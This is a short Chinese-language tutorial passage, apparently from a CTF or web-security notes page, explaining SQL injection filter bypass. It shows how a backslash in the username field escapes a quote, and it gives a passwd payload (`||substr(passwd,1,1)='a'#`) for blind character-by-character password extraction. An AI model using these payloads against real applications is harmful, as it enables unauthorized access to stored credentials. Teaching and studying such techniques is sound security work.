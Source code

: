 <br>

### 巧妙运用反斜杠

当过滤词过多时,可以使用反斜杠来对已有的单引号进行转义,从而打乱引号的配对关系,让一些值为我们所控制

例如: 当查询语句为,此时`username`输入`\`

```
select * from users where username='' and passwd=''
```

整个语句就变成了:

```
select * from users where username='\' and passwd=''
username后面的单引号被注释掉, 前面的单引号被迫和passwd后的单引号闭合,这样查询时的username的值为:
' and passwd=
```

然后我们可以在后面任意构造且,或等逻辑表达式,例如passwd中传入:

```
||substr(passwd,1,1)='a'#
这样整个语句就变成了
select * from users where username='\' and passwd='||substr(passwd,1,1)='a'#
```

更直观一些看: 语句变成了下面两个表达式的或判断

select * from users where <span style='color:black;background:yellow;font-family:hei;font-weight:bold'>username='\' and passwd='</span>||<span style='color:black;background:yellow;font-family:hei;font-weight:bold'>substr(passwd,1,1)='a'</span>#

这样以来就可以进行盲注了



反斜杠和注释符`/**/`配合使用还可以让某些内容摆脱引号的控制,又如[[git泄露,二次注入,DS_store]Comment](a65f6ebf.html)















